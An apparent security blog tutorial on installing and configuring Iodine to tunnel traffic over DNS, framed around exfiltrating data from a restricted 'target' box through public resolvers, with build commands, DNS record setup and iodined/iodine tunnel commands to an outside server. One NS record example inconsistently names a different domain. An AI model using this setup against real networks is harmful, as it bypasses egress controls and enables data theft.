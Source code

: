 ```yaml
---
title: "Configuring Iodine"
date: 2021-05-19T10:08:56-08:00
draft: false
tags: 
- oob
- dns
- exfiltration
---
```


# Setting up and Using Iodine
## Introduction
What is Iodine? Rather than defining it, let's start with an example. Let's say you have physical access to a box and you desperately need to exfiltrate some data. However, you quickly discover that you cannot connect outbound on any port except 53. Basic protocol checks prevent you from simply configuring an FTP server on port 53 of your cloud server. And to throw another wrench into the gears, it seems like they have locked you into a set of standard public DNS servers anyway. How will you get any data out through just DNS destined for Google or Cloudflare servers? This is where Iodine comes in. (Some have also noted Iodine's usefulness in getting free wifi on planes and in hotels but we are not doing this)

Iodine provides a DNS tunnel on which other protocols such as HTTP or FTP can piggy back, allowing us to upload files with just access to public DNS servers. For more information on how non-DNS data may be carried over DNS, see our previous {{<preview-link "https://svl.sh/oob-dns/" blog>}} on out-of-band DNS.

## What you need
- A domain. Grab one off Namecheap or Godaddy, to name a couple domain name registrars.
- A server to receive the DNS requests. A cloud server or virtual private server ("VPS") will be easiest, since it already has a public address and we won't need to port forward anything.
- A target. Probably one that has some painful networking restrictions.


## Step 1: Set up your server
First, create an Ubuntu server on your VPS provider of choice. On that server:
- Make sure you disable any conflicting DNS services on port 53. See other blogs on Linux sysadmin basics for more information on the command to use. Most likely, the following command will work:
```bash
systemctl stop systemd-resolved
```
You can also run `apt update` and `apt upgrade` as needed. This should not be an issue because you just made the VPS, and it should be a relatively new image. But it is good practice and may fix problems with outdated packages.

Let's compile and install the server binary (both the client and server binary are the same, just run with different arguments and flags).
First, clone the repository to your system.
```bash
git clone https://github.com/yarrick/iodine.git
```
Once the iodine repo is in your current directory, enter the directory with:
```bash
cd iodine
```
Ensure that you have the libz-dev installed. This library, used for data compression, is necessary for the compilation process (transporting data over DNS means that data compression is going to play a big role in maximizing throughput). Install the package using:
```bash
apt install libz-dev
```
Now we compile the app using:
```bash
make
```
And now install it (installing in general is moving files to the right locations for execution; here, we just move the compiled binary to a directory in the path). Use the command:
```bash
make install
```

##  Step 2: Configure your DNS entries
Next we need to ensure that DNS requests can reach our server. 
Our first entry will be to give our "DNS" server an FQDN. Go to your domain registrar's website and open the DNS settings for the domain you want to use.

We will start by adding an A record that will point to the IP of your hosted server. The entry should look something like the following, depending on your registrar's web site:
|Type |Host |Value | TTL |
|A Record | ns | IP Address | Auto |
An A record is one of the simplest types of records, and it determines what IP to direct traffic to when a certain hostname is requested. In this example, let's say you bought `testeroni.com`. The above record will direct any traffic destined for `ns.testeroni.com` to the IP address you specify. If you wanted another host on this domain, you can give it another name like `computer1` and it would be reachable on `computer1.testeroni.com`.

Now to get DNS traffic to our `ns.testeroni.com` host, we need to configure it to be the resolver for a subdomain we setup. For example, our subdomain can be called `s.testeroni.com`, any requests to resolve `[somehost].s.testeroni.com` will go to a specified name server. In this case, we will sit it to `ns.testeroni.com`.
|Type |Host |Value | TTL |
|NS Record | s | ns.potato.monster. | Auto |

Just as a recap, we have a subdomain called `s` of our domain `testeroni.com`. Any host information is specified before `s.testeroni.com`.

## Start up the server
```bash
iodined  -f -c -P [password] 192.168.77.1 s.testeroni.com
```
We will start with the `-f` option to start iodined in the foreground; this is going to help with troubleshooting. `-c` is used for compression, `-P` is to specify the password.
The IP address is the address you want for the *tunnel*. This should be a different subnet than your local network. You use these IPs to communicate between the two hosts through the tunnel. 

## Start the client program
```bash
iodine -f -P [password] s.testeroni.com
```
Here, we start the client program with a similar command, but note the lack of the d for daemon at the end. The client program will attempt to connect to the server using just DNS. Data will be encoded in the host section of the subdomain like so `[data].s.testeroni.com`.

## Test the connection
To test if the tunnel is configured properly, try using the following command from your client (and vice versa):
```bash
ping <tunnel-IP-of-server>
```
Any traffic that you need tunneled through DNS can simply be directed towards the server's tunnel IP. For specific application traffic to be forwarded, configure proxies (see http or SOCKS proxies) that will handle requests using the less restricted server side.

